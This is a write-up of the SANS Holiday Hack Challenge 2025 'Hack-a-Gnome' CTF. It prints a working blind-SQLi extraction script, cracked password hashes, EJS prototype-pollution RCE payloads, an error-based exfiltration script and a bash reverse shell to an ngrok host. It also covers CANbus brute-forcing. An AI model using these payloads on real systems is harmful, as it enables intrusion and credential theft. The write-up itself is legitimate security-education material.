





In the SANS Holiday Hack Challenge (HHC) of 2025, there was a challenge named `Hack-a-Gnome`, which was rated 3/5  difficulty, however it definitely felt harder than that to me. The following is my write-up of my solution to this challenge, and at the end of the article I will also mention a few of my other favourite challenges from this year's SANS HHC.

> Davis in the Data Center is fighting a gnome army—join the hack-a-gnome fun.

The challenge is/was hosted at: https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/login

## Initial point of entry (Blind SQLi)

On the login page, we can also see a feature to register a new user. Although we are unable to register a new user, we do see an interesting backend request to check whether the new user username is available or not. Additionally, a simple SQL Injection check reveals that this request is likely vulnerable:


 
The error also reveals some interesting strings related to Azure, which we find are related to **CosmosDB** when we search them on the internet.

Blind SQLi seems to work:

`https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username="+OR+"1"%3d"1`

The above URL returns `available: false`, while the following URL returns `available: true`:

`https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username="+OR+"1"%3d"2`

This means that we can perform Boolean logic to confirm whether something is true by looking at the negation of the `available` flag that is returned.

Looking at query examples in CosmosDB, we see that fields are queried by using an alias for a table name followed by the table name. After some brute forcing, we find the username fieldname to be queryable using `c.username`. The following python script shows an example of how we can **extract data using Blind SQLi** - we compare one character of the returned result with a value we provide, and check whether `available: false` is returned. If we have a match on the character, we can move onto the next character to check against.

Using this approach, we find two usernames: `bruce` and `harold`. Additionally, we can use a wordlist of field names to find the existence of the `c.digest` field, which likely stores the hash for the users. The following script can be used to extract `bruce`'s hash using Blind SQLi:

```py
import requests, string

final = ''

for i in range(50):
    url = 'https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username="+OR+c.username%3d"bruce"+AND+SUBSTRING(c.digest,' + str(i) + ',1)%3d"'
    for char in string.printable:
        urltotry = url + char
        #print(urltotry)
        res = requests.get(urltotry)
        if 'false' in res.text:
            print('char at pos ' + str(i) + ': ' + str(char))
            final += str(char)
            break
    print(final)
```

 - Bruce's digest: `d0a9ba00f80cbc56584ef245ffc56b9e` (which is the MD5 hash of the password: `oatmeal12`)
 - Harold's digest: `07f456ae6a94cb68d740df548847f459` (which is the MD5 hash of the password: `oatmeal!!`)

## Prototype Pollution

Now that we have credentials to login, we are met with the following web page:



When we move the robot on the screen, we see the following request with JSON being sent in the background:
`https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message=%7B%22action%22%3A%22move%22%2C%22direction%22%3A%22up%22%7D`

The `message` parameter decodes to:
```json
{"action":"move","direction":"up"}
```

Additionally, we find another action being sent when "updating the name" of the bot (see green button at the bottom of the above screenshot) which sends the following JSON:

```json
{"action":"update","key":"settings","subkey":"name","value":"test"}
```

It seems like sending this request updates the `gnome_config_object` that can be seen at the bottom of the web page:

```json
{"settings":{"name":"GnomeBot37452","model_version":"2.3.8","firmware_version":"GNM-4.12.0"}}
```

The vulnerability here is likely "prototype pollution" where we can "pollute" properties in javascript objects. To get RCE, we probably need to replace a function that is called by the server on a page load, rather than replacing shell or env (as this would only be executed when the server is reloaded).

See potential candidates to pollute here: https://github.com/KTH-LangSec/server-side-prototype-pollution

We eventually find an interesting response from the server when we try to replace `__proto__.escapeFunction` as follows:

```json
{"action":"update","key":"__proto__","subkey":"escapeFunction","value":"JSON.stringify; process.mainModule.require('child_process').exec('curl test.oast.pro')"}
```

When we next try to load the website, we receive an error that reveals the template engine being used:



From above, it seems like "EJS" is the template engine being used, which in the past has had CVEs such as CVE-2022-29078: https://security.snyk.io/vuln/SNYK-JS-EJS-2803307
Since `escapeFunction` is not defined / used by this version of the template engine, we try another potential method for RCE as mentioned in the CVE above: `__proto__.outputFunctionName`. For example, we can try to receive data via error messages using:

```json
{"action":"update","key":"__proto__","subkey":"outputFunctionName","value":"x;process.mainModule.require('child_process').execSync('$(cat canbus_client.py | base64)')"}
```

Using error messages to extract data, I created the following python script to execute a command, output it's results to `output.txt` on the server, and then repeatedly use `$(tail output.txt | base64)` to extract the contents of `output.txt` 1 line at a time. This worked because the server would try to execute the base64 as a command, error out, and then show the command that it tried to execute in the returned error:

```py
import requests, base64
import urllib.parse

cookies = {'connect.sid': 's%3AJcsozL7KhBDWgfaUmSXRl-mQThxKk7_j.lEvKTYqTBA1SKQzm9mfKiD1CXaNbT44%2FTQA0QjltTis'}
statsurl = 'https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/stats'
url = 'https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/ctrlsignals?message='

commandToExecute = 'cat README.md'
jsonpayload = "{\"action\":\"update\",\"key\":\"__proto__\",\"subkey\":\"outputFunctionName\",\"value\":\"x;process.mainModule.require('child_process').execSync('" + commandToExecute + " | fold -w 50 > output.txt')\"}"

print("Executing: " + commandToExecute)
requests.get(url + urllib.parse.quote_plus(jsonpayload), cookies=cookies)
requests.get(statsurl, cookies=cookies)

for i in range(100):
    jsonpayload = "{\"action\":\"update\",\"key\":\"__proto__\",\"subkey\":\"outputFunctionName\",\"value\":\"x;process.mainModule.require('child_process').execSync('$(tail -n +" + str(i) + " output.txt | head -n 1 | base64)')\"}"
    res = requests.get(url + urllib.parse.quote_plus(jsonpayload), cookies=cookies)
    if "Updated __proto__.outputFunctionName" in res.text:
        # continue attacking by reading output
        res = requests.get(statsurl, cookies=cookies)
        if "Command failed:" in res.text:
            # extract base64 payload
            print(base64.b64decode(res.text.split('/bin/sh: 1: ')[1].split(':')[0]).decode('utf-8'), end="")
        else:
            if "Invalid left-hand side in assignment" in res.text:
                exit()
            print('FAIL executing command: ' + res.text)
    else:
        print('FAIL prototype pollution: ' + res.text)
```

However, there is a better approach - we can execute a reverse shell using the following JSON payload:

```py
commandToExecute = 'bash -c \\"bash -i >& /dev/tcp/0.tcp.ngrok.io/13935 0>&1\\"'
jsonpayload = "{\"action\":\"update\",\"key\":\"__proto__\",\"subkey\":\"outputFunctionName\",\"value\":\"x;process.mainModule.require('child_process').execSync('" + commandToExecute + "')\"}"
```

Using this command (and making sure to URL encode our payload), we receive a reverse shell! Note that we used `ngrok.io` to tunnel the shell to our local machine which is behind a NAT.

## CANbus Exploitation

We are also provided with the following hint for the challenge:

> Nice! Once you have command-line access to the gnome, you'll need to fix the signals in the canbus_client.py file so they match up correctly. After that, the signals you send through the web UI to the factory should properly control the smart-gnome. You could try sniffing CAN bus traffic, enumerating signals based on any documentation you find, or brute-forcing combinations until you discover the right signals to control the gnome from the web UI.

Using our reverse shell, we setup a `pty`, and test out using the canbus python script provided to us:

```c {hl_lines=[1,2]}
root@998b0c3759e1:/app# python3 -c 'import pty; pty.spawn("/usr/bin/bash")'
root@998b0c3759e1:/app# python3 canbus_client.py 0x650	
usage: canbus_client.py [-h] {up,down,left,right,listen}
canbus_client.py: error: argument command: invalid choice: '0x650' (choose from 'up', 'down', 'left', 'right', 'listen')
```

It looks like this script supports certain commands, and we need to adjust the hardcoded values in the script to appropriately move the robot on the factory floor.
From the `README.md` file, we gather that `0x3XX` commands are status commands, and `0x4XX` are request commands.

We can try to brute force other commands, for example let's try looping through `0x00-0x2FF`, and monitor the robot to see if anything happens. We copy over the canbus client script to our local machine, and replace the command-sending code near the bottom to:

```py
    if args.command == "listen":
        listen_for_messages(bus)
    else:
        for command_id in range(0x00,0x2ff):
            print("sending command_id: " + str(command_id))
            send_command(bus, command_id)
            # Give a moment for the message to be potentially processed if listening elsewhere
            time.sleep(2)
```

To copy our copy of the canbus script over to the remote host, we can base64 encode it, and copy it over to the server. The following helper command will output the base64 version of our local script all in one line:

```c
$ base64 canbus_client_copy.py -w 0
```

Once copied over, we can then run our test script to loop through all the commands, while watching the robot to see if it moves in the background:

```c
root@998b0c3759e1:/app# base64 -d test.py.base64 > test.py
root@998b0c3759e1:/app# python3 test.py
```

As our script is executing commands, we see the robot move when the client sends commands in the early `0x200`s. After some iterations of editing our script to be more precise with sending commands, we find that the following commands map to the following moves:

```
0x201 - up
0x202 - down
0x203 - left
0x204 - right
```

We can now run the original `canbus_client.py` with these modified commands to move the robot wherever we wish:



From here, we can solve the [Sokoban](https://en.wikipedia.org/wiki/Sokoban) challenge by hand (which I personally enjoyed very much).

From the start, we can use the following moves to get to the exit: `down, down, down, down, left, down, left, left, left, up, left, up, up, left, up, up, left`. This leads to us reaching the control to shut down the factory:



And that's the challenge! A huge thanks to the challenge author(s) for creating such a unique and fun challenge!

---

Live and Learn!

Here is a summary of some of my other favourite challenges from this year's SANS Holiday Hack Challenge:
1. The `Rogue Gnome Identity Provider` challenge involved exploiting an IDP server that used JWT tokens and a JSON web key to verify the signature of the tokens. As explained in this [Invicti article](https://www.invicti.com/web-application-vulnerabilities/unvalidated-jwt-jku-parameter), without proper validation of the JKU parameter, an attacker can supply a JSON web key set (JWKS) of their own, potentially allowing the creation of forged JWTs with arbitrary payloads.
2. The `Quantgnome Leap` challenge teaches us about different key generation algorithms that can be used in a post-quantum setting. For example, we authenticate with a post-quantum hybrid key which uses 2 signatures (a classical elliptic curve and a post-quantum scheme called SPHINCS+). We can read about stronger algorithms here: https://openquantumsafe.org/liboqs/algorithms/
3. The `Gnome Tea` challenge involved a web application that used firebase in the backend. The vulnerabilities included [open firestore collections](https://firebase.google.com/docs/firestore/security/insecure-rules), [open Firebase storage buckets](https://ice0.blog/docs/openfirebase), and GPS information revealed in `exif` data of a photo.